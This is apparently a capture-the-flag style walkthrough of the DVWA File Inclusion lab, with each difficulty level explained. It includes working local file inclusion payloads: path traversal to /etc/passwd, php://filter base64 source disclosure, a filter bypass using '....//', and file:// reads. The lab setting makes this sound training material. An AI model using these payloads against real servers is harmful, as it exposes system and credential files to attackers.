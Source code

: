 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/fi
---
```


# File Upload --

<details>

<summary>What is a File Inclusion?</summary>

A **file inclusion** attack is a type of security exploit that takes advantage of improper or unchecked input handling in web applications. The goal of such an attack is to include files on a server through the web browser. There are two main types of file inclusion attacks: Local File Inclusion (LFI) and Remote File Inclusion (RFI).

1. **Local File Inclusion (LFI):**
   * In an LFI attack, an attacker tries to include files that are already present on the target system. These files could be configuration files, system files, or any other sensitive information.
   * The attacker manipulates input parameters or user-controlled data in a way that the application includes a file from the local file system.
   * For example, if a web application includes a file based on user input without proper validation, an attacker might input a malicious path to include sensitive files.
2. **Remote File Inclusion (RFI):**
   * RFI is a more severe form of file inclusion attack where the attacker includes files from a remote server controlled by them.
   * The attacker injects a URL pointing to a file on a remote server into a parameter or input field, and the application fetches and includes the contents of that remote file.
   * This can lead to the execution of arbitrary code on the server, potentially allowing the attacker to take control of the system.

File inclusion vulnerabilities can occur due to poor input validation and lack of proper security measures in web applications. To prevent file inclusion attacks, developers should:

* Validate and sanitize user input.
* Avoid dynamically including files based on user input without proper validation.
* Implement proper access controls to restrict file access.
* Use secure coding practices and frameworks that handle user input securely.

Regular security assessments, code reviews, and penetration testing can help identify and mitigate file inclusion vulnerabilities in web applications.

</details>

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've a div containing three distinct hyperlinks, each triggering the display of various files within the web application upon activation. The exhibition of a specific file is accomplished through the utilization of the subsequent GET request.

<div align="left">

<figure><img src="../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (106).png" alt=""><figcaption><p>file1.pho</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption><p>file2.php</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (108).png" alt=""><figcaption><p>file3.php</p></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

</div>

```http
GET /DVWA/vulnerabilities/fi/?page=file1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/DVWA/vulnerabilities/fi/?page=include.php
Connection: close
Cookie: security=low; PHPSESSID=s7nq882ng75b21h8b8uc4rmaod
Upgrade-Insecure-Requests: 1
```

This is php code of this level:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

The concept involves manipulating the filename within the page parameter to any desired file on the target, enabling us to retrieve its contents. By employing the following GET request, we can read the contents of the etc password file.

#### 1st Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

Replacing this path: `../../../../../../etc/passwd` at file1.php, we obtain result of command in html output:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

If the goal is to disclose certain PHP code, one approach is to utilize PHP filters to encode the PHP code into base64.

#### 2nd Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

but the request is to see `fi.php` file, then we use this URL:

```
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php
```

which gives us the following base64 payload

```bash
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

Decoding it, we obtain this php code:

```php
<?php

if( !defined( 'DVWA_WEB_PAGE_TO_ROOT' ) ) {
	exit ("Nice try ;-). Use the file include next time!");
}

?>

1.) Bond. James Bond

<?php

echo "2.) My name is Sherlock Holmes. It is my business to know what other people don't know.\n\n<br /><br />\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n<br /><br />\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>

<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->
```

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

In this case, code includes a little validation checks:

`$file = str_replace( array( "http://", "https://" ), "", $file );`\
`$file = str_replace( array( "../", "..\\" ), "", $file );`

it tries to remove all sorts of http and https protocol usage, trying to remove the possibility for a Remote File Inclusion (RFI), and it also replaces `../` with the empty string: `""`.

The handling of the '../' character sequence is insufficient, as the validation is not performed recursively.

#### 1st Payload

```bash
....//....//....//....//....//etc/passwd
```

After input validation (not recursive), changing ../ to "", we obtain this result:

```
../../../../../etc/passwd
```

Then full URL will be this:

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd/passwd
```

\
How the low level, adding the php filters we can also leak the server’s php code:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=....//....//....//....//....//var/www/html/hackable/flags/fi.php
```

and we get the following base64

```
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

To get an RFI instead we can use `php streams`.

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## High

<div align="left">

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

</div>

In this code the're two validation checks:

1. The `fnmatch()` function in PHP, which matches strings against patterns using shell-style wildcards. In our scenario, it matches any file that begins with 'file.'
2. The condition `$file != 'include.php'` introduces a specific case where the 'if' statement fails only when the file doesn't start with 'file' and is precisely 'include.php'.

#### 1st Payload

Regarding LFI exploitation, the code solely verifies whether the parameter begins with 'file' and does not examine its ending. Consequently, we can employ the following GET request to expose the 'passwd' file.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file/../../../../../../../etc/passwd
```

however we cannot seem to able to use the php filters to leak php code by using the base64 converter.

#### 2nd Payload

An alternative approach involves leveraging the file protocol to access and read any file in the system based on its given path.

```html
http://localhost/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
```

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Site isn't vulnerable to File Inclusion attack because the request includes only possible lecit value/page.
{% endhint %}

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion](https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion)
